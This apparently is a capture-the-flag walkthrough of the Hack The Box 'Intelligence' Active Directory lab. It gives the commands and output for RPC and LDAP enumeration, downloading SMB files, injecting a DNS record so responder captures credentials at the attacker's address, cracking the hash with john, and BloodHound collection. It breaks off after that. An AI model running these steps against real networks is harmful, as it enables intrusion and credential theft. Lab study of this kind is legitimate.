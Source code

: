 We try to rpc with the credentials and enumerate 
```zsh
rpcclient -U "Tiffany.Molina%NewIntelligenceCorpUser9876" 10.10.10.248
rpcclient $> enumdomusers

rpcclient $> enumdomgroups

rpcclient $> querydispinfo
```
Administrator is the only available for Domain Admin. Lets now dump the ldap info with valid credentials. for that we go first to the /var/www/html folder and from there receive all the dump
```zsh
ldapdomaindump -u "intelligence.htb\Tiffany.Molina" -p 'NewIntelligenceCorpUser9876' -n 10.10.10.248 10.10.10.248
```
we start the apache service and then go to the browser and go to localhost. This will allow us to view all the dump data in a comfortable manner via html. We can review the info and stop the server once done. 
```zsh
service apache2 start 
service apache2 stop
```
We will use the user found against smb and check files till we find our flag. 
```zsh
smbmap -H 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -r Users/Tiffany.Molina/Desktop

smbmap -H 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --download Users/Tiffany.Molina/Desktop/user.txt
```
if we enumerate further there is a folder inside IT that has a PS script. The script is checking the DNS records that start with web, then it makes a request to that server with a user and a default pass (that we dont know). So we are going to inject a DNS record with the name web in it that it will point to our PC, we will capture the credentials from there and find out the pass. We are gonna need a tool from github to create the DNS record and then capture any traffic with responder. 
```zsh
sudo git clone https://github.com/dirkjanm/krbrelayx.git

cd krbrelayx

python3 dnstool.py -r webricky -a add -t A -d 10.10.14.4 10.10.10.248 -u "intelligence.htb\Tiffany.Molina" -p "NewIntelligenceCorpUser9876"

sudo responder -I tun0
```
we capture the credentials and then use john to crack it. We validate them with crackmapexec
```zsh
john -w:/usr/share/wordlists/rockyou.txt hash
Mr.Teddy         (Ted.Graves)     

crackmapexec smb 10.10.10.248 -u Ted.Graves -p Mr.Teddy
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Ted.Graves:Mr.Teddy 
```
We are going to use the bloodhound ingestor with the new credentials.
```zsh
bloodhound-python -c All -u 'Ted.Graves' -p 'Mr.Teddy' -ns 10.10.10.248 -d intelligence.htb
INFO: Found AD domain: intelligence.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc.intelligence.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
```
